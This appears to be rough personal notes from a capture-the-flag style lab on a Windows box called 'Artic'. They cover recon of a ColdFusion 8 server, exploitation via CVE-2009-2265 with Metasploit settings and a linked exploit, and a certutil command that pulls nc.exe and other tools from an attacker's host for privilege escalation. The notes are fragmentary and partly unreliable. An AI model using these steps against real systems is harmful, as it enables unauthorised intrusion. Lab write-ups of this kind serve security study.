








Name: Artic
Date:  
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon



There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:




`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:


I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)






Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.



`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I then tried Sherlock from my see as wes-ng did not work.
